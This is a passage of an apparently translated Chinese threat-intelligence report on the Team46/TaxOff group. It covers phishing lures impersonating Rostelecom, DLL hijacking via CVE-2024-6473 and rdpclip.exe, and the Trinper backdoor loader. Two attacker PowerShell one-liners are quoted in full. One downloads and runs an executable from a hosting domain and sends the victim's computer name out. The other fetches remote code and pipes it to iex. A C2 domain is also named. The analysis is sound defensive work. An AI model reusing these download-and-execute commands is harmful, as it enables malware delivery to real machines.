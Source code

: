 ```
```  
  
  
为了进行比较，以下是在 Team46 攻击中发现的类似脚本：  
  
```
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -w Minimized -ep Bypass -nop -c "iwr 'https://srv480138.hstgr.cloud/uploads/scan_3824.pdf' -OutFile $env:LOCALAPPDATA\Temp\399ha122-tt9d-6f14-s9li-lqw7di42c792.pdf -UserAgent 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.';$env:LOCALAPPDATA\Temp\399ha122-tt9d-6f14-s9li-lqw7di42c792.pdf;iwr 'https://srv480138.hstgr.cloud/report.php?query=$env:COMPUTERNAME' -OutFile $env:LOCALAPPDATA\Temp\AdobeUpdater.exe -UserAgent 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.1 YaBrowser/23.11.0.0 Safari/537.36';$env:LOCALAPPDATA\Temp\AdobeUpdater.exe;"
```  
  
  
如您所见，受害者计算机上的诱饵文档使用了相同的命名模式（umawbfez-bkw5-f85a-3idl-3z4ql69v8it0.pdf 和 399ha122-tt9d-6f14-s9li-lqw7di42c792.pdf）。在这两种情况下，下载诱饵文档时都使用 Edge 用户代理，下载有效载荷时则使用 Yandex 浏览器用户代理。此外，在这两种情况下，计算机名称都通过 查询参数传递。  
  
这两起案件之间唯一真正的区别在于有效载荷。Dr.Web描述的早期攻击利用了Yandex 浏览器中的 DLL 劫持漏洞 ( CVE-2024-6473 )，攻击者替换了合法的Wldp.dll库来启动恶意载荷。在 2024 年 10 月的攻击中，攻击者利用了 同样易受 DLL 劫持攻击的 rdpclip.exe系统组件，并替换了winsta.dll系统库。  
  
有趣的是，winsta.dll是 TaxOff 组织使用的 Trinper 后门的加载器，我们 之前曾描述过该后门。该后门使用了 common-rdp-front.global.ssl.fastly.net C2 服务器。  
  
如果不是 2024 年 9 月记录了一次类似的攻击，这或许会被视为巧合。攻击者发送的网络钓鱼电子邮件包含一个名为Корпоративного Центра ПАО «Ростелеком».zip 的存档，其中包含一个名为Ростелеком.pdf.lnk的快捷方式，该快捷方式使用 Team46 的典型命令启动powershell.exe ：  
  
```
-whid -ep Bypass -nop -c"irm https://srv510786.hstgr.cloud/ordinary.php?id=9826fbb409f65dc6b068b085551bf4f3 | iex"
```  
  
  
攻击中使用的诱饵文件伪装成俄罗斯最大的数字服务提供商 Rostelecom 发出的消息，通知即将进行维护停机。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tad4spib6WVQc03kEYD6LB8IwCmatkUXwpMCSktu9DHEX5sjW3Liacx4jxGwBO5DdrxTUBTRUMJ840UA/640?wx_fmt=png&from=appmsg "")  
  
图 2. 2024 年 9 月攻击中使用的诱饵文档  
  
消息末尾的电话号码是 Team46 样式（我们在 之前的文章中讨论过）：它是不正确的，由随机数字序列组成。   
  
此次攻击的有效载荷是 AdobeARM.exe文件，它恰好是Dr.Web 描述的首个已知 Team46 攻击中使用的后门的加载器。事实上，在分析其中一起事件时，我们在带有 Trinper 后门的系统上发现了这个后门，也称为AdobeARM.exe。  
  
Trinper装载机  
  
在 DllMain 函数中，加载程序初始化一个结构，该结构包含加密的最终有效载荷、用于进一步检查的哈希列表以及辅助字段（例如最终有效载荷的大小）。初始化结构后，加载程序将启动一个线程，该线程包含用于解密和启动最终有效载荷的逻辑。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tad4spib6WVQc03kEYD6LB8IwxiaXfrJqYDqAWOsmQh8rGMDMVG0qtZlND6AHIgt9ZPbxX7LQMGDI2rg/640?wx_fmt=png&from=appmsg "")  
  
图 3. 结构初始化和线程启动  
  
为了描述解密过程，我们创建了一个图表，显示加密层及其序列以及相应的解密算法和密钥。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tad4spib6WVQc03kEYD6LB8IwGG9tJWicNk1KTy2Pc0VKPdic8rXJkNLweQNhmKQb2L8nkO4OfW8n0DbA/640?wx_fmt=png&from=appmsg "")  
  